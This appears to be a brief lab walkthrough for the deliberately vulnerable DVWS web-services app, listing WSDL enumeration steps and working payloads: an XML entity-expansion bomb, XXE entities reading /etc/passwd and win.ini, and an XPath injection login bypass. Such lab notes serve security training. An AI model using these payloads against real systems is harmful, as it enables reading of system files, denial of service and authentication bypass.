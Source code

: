 ### WSDL Enumeration
URL: dvws/vulnerabilities/wsdlenum/service.php?wsdl

check_user_id with value root

### WSDL Scanning 
* Load the check_user_information envelope into Intruder
* select username space 
* add username lists to payload


### XML External Entity Injection
URL : /dvws/vulnerabilities/xxe/

[XML Entity Expansion]

<!DOCTYPE foo [<!ENTITY entity0 "foo"><!ENTITY entity1 "&entity0;&entity0;"><!ENTITY entity2 "&entity1;&entity1;"><!ENTITY entity3 "&entity2;&entity2;">]><name>foo and&entity3;</name>


[XXE]

name=<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<test>&xxe;</test>
 
 
name=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><test>&xxe;</test>


### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php



username: foo' or 1=1 or 'a'='a 
password: bar


